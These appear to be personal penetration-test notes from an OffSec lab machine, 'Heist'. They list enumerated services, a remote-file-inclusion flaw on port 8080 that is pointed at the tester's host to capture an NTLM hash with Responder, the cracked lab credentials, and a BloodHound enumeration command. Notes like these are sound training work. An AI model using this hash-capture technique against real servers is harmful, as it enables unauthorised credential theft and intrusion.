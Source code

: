 ### ++ Approach 192.168.180.165 ++
#### Credentials
	* enox:california (heist.offsec)

#### Services
	##### 53 DNS
		DC: DC01.heist.offsec
        Domain: heist.offsec

	##### 389,3268 Ldap
		-

	##### 139,445 SMB
		No null session

	##### 135 RPC
		No null session

	##### 3389 RDP
		-

	##### 5985 WinRM
		We can login with enox user

	##### 8080 Http
		Here we found RFI: http://heist.offsec:8080/?url=http://192.168.45.187/share/test
        We can steal user hash with responder and get creds enox:california
        Get bloodhound data: 
            bloodhound-python -u enox -p california -ns 192.168.180.165 -d heist.offsec -c All

### ++ Vulnerabilities ++

#### Vuln 1: RFI in 8080 app ++
	* There is a RFI vulnerability which can give us the user enox hash using responder, and crack the password con hashcat to get a foothold

### ++ System Interaction ++
#### Foothold  
	* Abuse vuln 1 and get a shell as enox

#### Privilege Escalation 
	* -

#### Attack chain
	* -
	
#### Post-exploitation 
	* -